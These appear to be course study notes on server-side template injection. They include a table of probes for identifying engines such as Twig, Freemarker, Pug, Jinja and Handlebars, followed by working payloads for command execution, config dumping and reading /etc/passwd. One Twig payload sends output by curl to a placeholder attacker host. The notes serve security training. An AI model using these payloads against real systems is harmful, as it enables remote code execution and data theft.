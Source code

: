 # Server-side Template Injection SSTI

_Server-side Template Injection_

Template engines:

| Engine | Language | Server/Client side | Discovering engine |
| ---- | ---- | ---- | ---- |
| Twig | PHP | Server side | 1) {{5 * '5'}} returns 25, 2) {{-name-}} returns trimmed name value |
| Freemaker | Java(usually) | Server side | 1) ${5 multiply '5'} returns an error, but  ${5 multiply 5} returns 25 |
| Pug/Jade | JS | Mostly server side | 1) #{5*"5"} returns <25> |
| Jinja | Python | Server side | 1) {{5*"5"}} returns 55555 |
| Handlebars | JS | Both |  |
| Mustache | Multiple | Varies |  |

In ascending order of logic:
1. Mustache
2. Handlebars
3. Jinja
4. Freemaker
5. Twig
6. Pug

💡Most templating engines will always escape HTML content unless specified not to. 
## Twig
See details in documentation of Twig [[2023051512325757  SSTI#^f60b31]]
Payloads:
```twig
{{[0]|reduce('system','whoami')}}
```
Another interesting functions: _filter_, _join_, _map_, _reduce_, _slice_, and _sort_
Other filters you can find here [[2023051512325757  SSTI#^d94507]]
### Send result of operation to the attacker's machine
```twig
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}

{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://ATTACKER_/?exfil=' ~ exfil)}}
```

## Freemaker

See details in documentation of freemaker [[2023051512325757  SSTI#^bd9b07]]

💡 Freemarker auto-escape variables if the content type was an HTML document
💡 Before 2016, Freemarker required developers to specify if a variable needs to be HTML escaped.
We can try to exploit XSS to template variables. 

```freemaker
${"freemarker.template.utility.Execute"?new()("whoami")}
```
List of all classes we might use in template [[2023051512325757  SSTI#^f518ad]]
## Pug
See details in documentation of pug [[2023051512325757  SSTI#^360eb2]]
We can use child_process:  [[2023051512325757  SSTI#^c2fd17]]
```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('whoami').stdout
```
## Jinja
If Jinja with Flask framework we can access to global variables like: config, request, session, g, url_for(), and get_flashed_messages() [[2023051512325757  SSTI#^cf86f3]]
```
 {{config|pprint}}
```

## Mustache and Handlebars
Hnadlebars mostly uses in JS. See details in documentation [[2023051512325757  SSTI#^116a10]] 
If an application uses the Handlebars templating engine and uses handlebars-helpers [[2023051512325757  SSTI#^3c2744]], we may be able to steal sensitive files from the file system
```handlebars
{{#each (readdir "/etc") }}
  {{this}}
{{/each}}
```

```handlebars
{{ read "/etc/passwd"}}
```
## References
1.  web200.Server-side Template Injection - Discovery and Exploitation
2.  (Symfony, 2021), [https://twig.symfony.com/doc/3.x/filters/index.html](https://twig.symfony.com/doc/3.x/filters/index.html) [↩︎](https://portal.offsec.com/courses/web-200/books-and-videos/modal/modules/server-side-template-injection-discovery-and-exploitation/twig-discovery-and-exploitation/twig-exploitation#fnref1) ^d94507
3. https://twig.symfony.com/ ^f60b31
4. Apache, 2021), https://freemarker.apache.org/  ^bd9b07
5. https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html  ^f518ad
6. https://pugjs.org/api/getting-started.html ^360eb2
7. https://nodejs.org/docs/latest/api/child_process.html#child_process_child_process_spawnsync_command_args_options ^c2fd17
8. https://flask.palletsprojects.com/en/2.0.x/templating/#standard-context ^cf86f3
9. (handlebars-lang, 2021), https://github.com/handlebars-lang/handlebars.js ^116a10
10. (helpers, 2017), https://github.com/helpers/handlebars-helpers ^3c2744
